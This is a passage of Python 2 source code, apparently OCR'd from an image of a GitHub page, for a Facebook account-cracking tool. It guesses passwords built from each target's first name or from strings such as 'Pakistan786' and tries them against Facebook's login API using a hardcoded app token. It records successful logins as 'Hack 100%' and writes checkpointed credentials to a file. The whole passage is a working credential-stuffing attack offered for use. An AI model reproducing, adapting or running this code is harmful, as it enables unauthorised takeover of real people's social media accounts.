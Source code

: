 								else:
									pass4 = b['first_name'] + '123'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = 'Pakistan786'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = 'Pakistan1'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + '786'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q: